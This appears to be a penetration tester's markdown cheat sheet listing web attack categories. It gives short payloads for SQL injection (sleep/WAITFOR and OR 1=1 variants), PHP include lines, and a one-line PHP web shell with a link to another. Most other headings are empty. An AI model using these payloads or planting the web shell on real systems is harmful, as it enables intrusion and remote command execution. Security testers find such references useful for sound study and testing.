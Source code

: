 ### Time Based Blind SQL Injection:
```
'(select * from (select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```
### Error Based SQL Injection:

### Boolean Based Blind SQL Injection:
```
'2 OR 1=1
''2 OR 1=1
"2 OR 1=1
'2 AND 1=1
''2 AND 1=1
"2 AND 1=1
```
### Local File Inclusion (LFI):
```


```
### Remote Code Execution (RCE):
```
<?php echo phpinfo(); ?>
<?php include 'C:\Windows\System32\drivers\etc\hosts';?>

```
### Malicious File Upload (Shell Execution):
```
<?php system($_GET['cmd']); ?>

https://github.com/hackerhijeck/For_Me/blob/main/Web_Shell.php
```
### Application is Vulnerable to Reverse Web shell (Shell Execution)
### File Upload Bypass 
### Session Hijacking
### Session Fixation in The Application
### Application is Vulnerable to Forceful Browsing
### Insecure Direct Object Reference
### URL Redirection in the application
### Reflected Cross Site Scripting Attack
### HTML Injection
### Link Injection
### Iframe Injection
### Blind Cross Site Scripting Attack
### Admin/User Login Authentication Bypass Using Success Response
### Cross Site Request Forgery (CSRF)
### Restricted Functionality Access in the Application
### Parameter Manipulation
### Test CGI script exposes environment variables
### Account Takeover through forget password
### Improper File Content Validation in the Application
### No Session Termination After Password Change
### Password History Check is not Implemented
### Concurrent Logins with the Same Username in admin/user account
### Trace method Enabled
### Full path disclosure
### Improper Input Validation in the Application
### Client side validation bypass of email and phone number verification
### Application is Vulnerable to Clickjacking Attacks
### OpenSSL Version disclose in the application
### Last Login Time Not Implemented in the Application
